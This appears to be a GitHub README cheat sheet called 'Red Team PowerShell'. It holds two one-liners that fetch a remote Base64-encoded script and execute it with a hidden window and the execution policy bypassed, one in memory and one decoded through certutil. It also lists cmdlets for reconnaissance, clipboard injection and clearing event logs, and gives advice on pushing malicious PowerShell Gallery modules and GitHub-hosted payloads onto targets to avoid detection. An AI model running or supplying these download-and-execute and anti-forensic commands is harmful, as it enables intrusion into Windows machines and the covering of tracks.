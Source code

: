 # Red Team PowerShell

## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |

# Attack Vectors:

### PowerShell Gallery Modules

- Upload PowerShell Gallery module and import it onto targets systems. This method allows widge range use as most Windows computers has PowerShell enabled. This method also exploits trusted Windows applications, making it harder to detect. This method could also potentially assist in elevated privileges. However, when a module is imported from PowerShell Gallery, it touches the hard drive and is typically saved to `"C:\Users\USER\Documents\PowerShell\Modules\"`.

### Fileless PowerShell Script Execution

- You can upload a file to a remote server and fetch the raw contents of the script and save it as a PowerShell variable and then execute that variable. This allows the execution of PowerShell scripts without the script ever touching the hard drive. The script is saved as a variable, which is only stored in memory for that current session. Using GitHub to host the PowerShell script is a common tactic.

### Decode Base64 using PowerShell

- You can decode Base64 directly in PowerShell. Using `Convert.FromBase64String()` you can decode the content from Base64 to binary. You would then use `[Text.Encoding]::UTF8.GetString()` to convert the binary data to a regular string.

For example:

```powershell
# convert base64 string to binary
$binary = [System.Convert]::FromBase64String("aGVsbG8=")

# convert binary data to string
$string = [System.Text.Encoding]::UTF8.GetString($binary)

# print the string
$string
```


